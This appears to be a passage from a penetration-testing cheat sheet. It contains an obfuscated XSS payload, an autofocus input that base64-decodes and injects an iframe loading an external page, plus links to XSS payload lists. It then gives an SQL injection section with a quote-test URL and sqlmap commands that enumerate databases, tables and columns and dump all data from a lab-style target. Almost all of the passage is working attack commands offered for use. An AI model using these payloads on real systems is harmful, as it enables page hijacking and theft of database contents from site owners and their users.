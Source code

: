 ```javascript
<input onfocus="document.body.innerHTML=atob('PGlmcmFtZSBzcmM9Imh0dHBzOi8vamN3ODcuZ2l0aHViLmlvL2MyLXNtYjEvIiB3aWR0aD0iMTAwJSIgaGVpZ2h0PSI2MDAiPjwvaWZyYW1lPg==')" autofocus>
```

#### XSS payloads

* [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
* [Seclist XSS](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/XSS)


## SQLI

Sql Injection

### Sqlmap

#### GET

#### Error-Based

#### Simple test

`Adding a simpe quote '`

Example:
```javascript
http://192.168.1.104/Less-1/?id=5'
````

#### List databases


```bash
./sqlmap.py -u http://localhost/Less-1/?id=1 --dbs
```
#### List tables


```bash
./sqlmap.py -u http://localhost/Less-1/?id=1 -D database_name --tables
```

#### List columns

```bash
./sqlmap.py -u http://localhost/Less-1/?id=1 -D database_name -T table_name --columns
```

#### Dump all

```bash
./sqlmap.py -u http://localhost/Less-1/?id=1 -D database_name -T table_name --dump-all
```

#### Set Cookie

